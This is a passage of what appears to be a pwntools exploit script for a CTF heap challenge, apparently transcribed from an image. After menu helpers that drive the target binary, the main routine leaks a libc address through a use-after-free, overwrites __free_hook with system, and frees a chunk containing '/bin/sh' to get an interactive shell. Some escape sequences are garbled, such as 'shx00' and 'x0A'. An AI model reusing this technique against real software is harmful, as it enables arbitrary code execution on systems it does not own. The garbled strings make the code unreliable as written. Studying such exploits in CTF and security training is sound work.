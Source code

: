 ```
    sh.recvuntil('input name')
    sh.send(name)
    sh.recvuntil('input sex')
    sh.send('W')
    sh.recvuntil('input information')
    sh.send(information)

def show(sh,index):
    sh.recvuntil('Give me your choice : ')
    sh.sendline('2')
    sh.recvuntil('Give me your index : ')
    sh.sendline(str(index))

def edit(sh,index,Change_sex,information):
    sh.recvuntil('Give me your choice : ')
    sh.sendline('3')
    sh.recvuntil('Give me your index : ')
    sh.sendline(str(index))
    sh.recvuntil('Are you sure change sex?')
    if Change_sex:
        sh.send('Y')
    else:
        sh.send('N')
    sh.recvuntil('Now change information')
    sh.send(information)

def delete(sh,index):
    sh.recvuntil('Give me your choice : ')
    sh.sendline('4')
    sh.recvuntil('Give me your index : ')
    sh.sendline(str(index))

if __name__ == "__main__":
    sh = get_sh()
    creat(sh,'/bin/shx00','W','/bin/shx00' * 14)
    creat(sh,'Chunk__1','W','A' * 0x70)
    creat(sh,'Chunk__2','W','B' * 0x70)

    delete(sh,1)
    show(sh,1)
    libc_base = get_address(sh,'We get libc address is ','x0A','x0A',-0x3C4B78)

    creat(sh,'Chunk__3','W','C' * 0x70)
    creat(sh,'Chunk__4','W','D' * 0x70)
    edit(sh,1,False,p64(0)+p64(0x21)+p64(libc_base + libc.symbols['__free_hook'] - 0x10) + p64(1) + p64(0) * 10)
    edit(sh,4,False,p64(libc_base + libc.symbols['system']) + p64(1) + p64(0) * 12)
    delete(sh,0)
    sh.interactive()
```
